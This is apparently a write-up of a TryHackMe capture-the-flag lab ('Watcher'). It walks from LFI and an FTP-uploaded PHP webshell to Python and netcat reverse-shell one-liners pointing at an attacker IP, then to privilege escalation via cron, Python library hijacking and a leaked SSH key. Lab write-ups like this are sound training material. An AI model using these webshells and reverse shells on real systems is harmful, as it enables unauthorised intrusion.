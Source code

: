 * * *
  ### LAB: Watcher
  ### Platform: Tryhackme
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c2bacb9-866f-4196-8396-8f1ae25a5c8d)

### ENUMERATION
- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/53ee1839-ed07-4ed4-96fa-808620998f5f)

- Directory fuzzing with ffuf
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8c9dd130-a75d-4e98-ae70-56f3a8a35d3b)

- While inspecting the source code,a url caught my attenttion,the url serves php fies to the website,it seems it uses the `include()
php method` to read files,the `include()` method is vulnerable to LFI which allows an attacker to read files on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16a7df9d-2b32-45ed-bff1-fd60a13232e7)

- My assumption was right,I was able to read the /etc/passwd file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/213ddb3d-31f5-4e37-981a-ec3ae0e77ac0)

- Robots.txt indicates an hidden file `/secret_file_do_not_read.txt` but when I tried to read it,it flashed a `403 forbidden error`.
I was able to read it with the page vulnerable to lfi.The file revealed ftp credentials

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35de7036-4afc-468f-93e4-720549c939d6)

- We have write permissions in a particular folder `files`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/55fe248a-39ad-471e-b1a4-19d9b1ceb79b)

- Since we can read files with lfi,we can upload a shell to the ftp server with the folder `files` and get rce,a typical php webshell
  will have this contents `<?php echo system($_GET['cmd']); ?>`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d50afd55-6824-4c75-a9fd-dca685ab10fa)

 - Rce gained
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1d48d063-3156-442b-8880-c9ebb1616bbb)

- Pop a reverse shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/19aedeef-e734-4a0e-aa59-4585199180df)

### ROAD TO PRIVESC

- `sudo -l` reveals that we can run commands as user toby e.g `sudo -u <command>`,we can move to toby's account with `sudo -u toby /bin/bash`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2ea55e9f-d7a9-413c-bfd4-520ff86864e6)

- `cat /etc/crontab` reveals an active cron jobs running as user mat,user `toby` also has write permission to the script

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c9ea4332-ebc7-4223-8e9e-add3e93cb333)

- We can spawn a rev shell with it by adding the line below to the sh file,now we are logged in as user mat
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.158.229 1337 >/tmp/f`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0d3ba6cf-5a07-4952-9383-543c320f78e3)

### Hijacking python libraries

- Sudo -l reveals that we can run a python file as will with sudo

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d7d2fdfd-3b67-4975-b461-2a056b2837d7)
- After viewing the script,I noticed that it imports another script `cmd.py` which mat has writable permissions for,we can hijack it and add this line to cmd
  `import os
def get_command(num):
        if(num == "1"):
           os.system("/bin/bash")
           return "ls -lah"
`
  After running this command `sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`,I got logged in as will
### Root
- There is a b64 file in the opt directory which contains a private ssh key
  
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c60e1dc3-25d1-482d-aebd-6983f8a70ed5)

- Receive the file with python http.server,change permissions with `chmod 600` and login with `ssh -i <priv key> root@ip`,root access
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c814e54-eff2-4003-8e04-2134a26452fa)

### Unintended method

- Use Overlayfs exploit
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4058e674-e367-49d6-98e4-444bac936697)

  
--
